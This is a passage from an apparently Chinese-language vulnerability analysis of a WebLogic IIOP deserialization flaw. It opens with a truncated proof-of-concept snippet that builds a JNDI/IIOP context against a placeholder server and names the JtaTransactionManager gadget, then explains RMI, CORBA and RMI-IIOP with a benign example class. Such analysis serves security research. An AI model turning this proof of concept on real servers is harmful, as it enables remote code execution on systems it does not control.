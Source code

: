 ```
Hashtable&lt;String, String&gt; env = new Hashtable&lt;String, String&gt;();
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", "iiop://x.x.x.x:7001");
Context context = new InitialContext(env);
JtaTransactionManager...
```

在本地虚拟机上面就成功执行poc了

[![](./img/199966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://alphalab1-wordpress.stor.sinaapp.com/uploads/2020/03/2020030203470868_image-20200219162305165.png)



## 三、漏洞分析

根据官网漏洞描述及上面poc中可以知道 主要是利用IIOP协议进行的攻击。在分析之前先了解下这些协议的概念

根据oracle官网的[文档](https://docs.oracle.com/javase/8/docs/technotes/guides/rmi-iiop/rmi_iiop_pg.html)

**RMI**<br>
使用RMI，您可以使用Java编程语言编写分布式程序。RMI易于使用，您不需要学习单独的接口定义语言（IDL），并且可以获得Java固有的“编写一次，随处运行”的好处。客户端，远程接口和服务器完全用Java编写。RMI使用Java远程方法协议（JRMP）进行远程Java对象通信。<br>
RMI缺少与其他语言的互操作性，因为它不使用CORBA-IIOP作为通信协议。

**IIOP，CORBA和Java IDL**<br>
IIOP是CORBA的通信协议，使用TCP / IP作为传输方式。它指定了客户端和服务器通信的标准。CORBA是由对象管理组（OMG）开发的标准分布式对象体系结构。远程对象的接口以平台无关的接口定义语言（IDL）描述。实现了从IDL到特定编程语言的映射，将语言绑定到CORBA / IIOP。<br>
Java SE CORBA / IIOP实现称为Java IDL。与IDlj 编译器一起，Java IDL可用于从Java编程语言定义，实现和访问CORBA对象。

[![](./img/199966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014ba78266cc7297e3.gif)

**RMI-IIOP**<br>
以前，Java程序员不得不在RMI和CORBA / IIOP（Java IDL）之间进行选择，以用于分布式编程解决方案。现在，通过遵守一些限制，RMI服务器对象可以使用IIOP协议并与以任何语言编写的CORBA客户端对象进行通信。此解决方案称为RMI-IIOP。RMI-IIOP将RMI风格的易用性与CORBA跨语言互操作性相结合。

[![](./img/199966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01957b6fd5377b39ff.gif)

oracle官网的RMI-IIOP的[例子](https://docs.oracle.com/javase/8/docs/technotes/guides/rmi-iiop/tutorial.html#7738) ,为了方便IDEA编辑器DEBUG调试我把官网例子稍改了一下,并把客户端和服务端分开存储。

先创建这三个公用的类

```
//Message.java
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;

public class Message implements Serializable {
    private void readObject(ObjectInputStream s) {
        System.out.println("readObject...");
    }

    private void writeObject(ObjectOutputStream fos) throws IOException {
        System.out.println("writeObject...");
    }
}
```
